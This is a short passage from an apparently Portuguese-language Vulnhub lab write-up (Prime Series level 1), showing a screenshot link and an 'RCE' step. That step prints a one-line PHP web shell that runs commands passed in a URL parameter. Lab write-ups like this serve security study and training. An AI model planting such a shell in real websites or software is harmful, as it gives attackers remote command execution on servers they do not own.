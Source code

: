 ![](/assets/img/Vulnhub/Prime_Series_level-1/theme-secret-php.png)


## RCE


* Agora e so inserir o fomoso backdoor php para executarmos codigo via URL

```php
<?php system($_GET['cmd']); ?>
```
